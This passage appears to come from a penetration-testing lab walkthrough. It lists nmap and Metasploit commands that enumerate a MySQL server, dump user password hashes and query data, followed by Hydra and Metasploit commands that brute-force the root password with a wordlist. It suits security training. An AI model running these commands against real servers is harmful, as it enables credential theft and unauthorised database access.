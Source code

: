 ```bash
# 9. How many database users are present on the database server? Lists their names and password hashes.
msf5> use scanner/mysql/mysql_hashdump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 10. Check whether anonymous login is allowed on MySQL Server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-empty-password

# 11. Check whether “InteractiveClient” capability is supported on the MySQL server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-info

# 12. Enumerate the users present on MySQL database server using mysql-users nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-users --script-args 'mysqluser=root'

# 13. List all databases stored on the MySQL Server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-databases --script-args 'mysqluser=root'

# 14. Find the data directory used by mysql server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-variables --script-args 'mysqluser=root'

# 15. Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-audit --script-args 'mysql-audit.username=root,mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit'

# 16. Dump all user hashes using  nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-dump-hashes --script-args 'username=root'

# 17. Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-query --script-args 'query="select count(*) from books.authors",username=root'
```

#### MySQL Dictionary attack

```bash
john@kali> ip a
john@kali> nmap 192.86.53.3

# 1. Find the password of user “root” which is required to access the MySQL server.
#    Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/mysql/mysql_login
msf5> set rhosts 192.86.53.3
msf5> set username root
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run

# 2. Find the password of user “root” which is required to access the MySQL server. 
#    Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.86.53.3 mysql
```
